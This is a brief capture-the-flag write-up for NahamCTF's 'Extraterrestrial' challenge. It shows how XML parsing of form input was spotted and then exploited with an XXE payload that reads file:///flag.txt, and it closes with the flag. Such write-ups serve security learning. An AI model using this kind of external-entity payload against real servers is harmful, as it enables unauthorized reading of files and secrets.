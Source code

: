 ```yaml
---
title: "NahamCTF: Extraterrestrial"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


*Have you seen any aliens lately? Let us know!*

*The flag is at the start of the solar system.*

*Connect here:*
*http://jh2i.com:50004*

---

For this challenge, we're given a website with a blank box, and submit button, and a message:

*Extraterrestrial*

*We're doing a study on external life.*

*If you find any alien life forms, please inform us using the form below.* 

Entering "test" into the box and hitting submit returns the following message:

*Not well-formed (invalid token)*

A quick Google search for this tells us that it's an XML error, which means the page is parsing any xml we put into it. We can use XXE along with the hint to grab the flag:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///flag.txt">
]>
<r>&sp;</r>
```

**flag{extraterrestrial_extra_entities}**

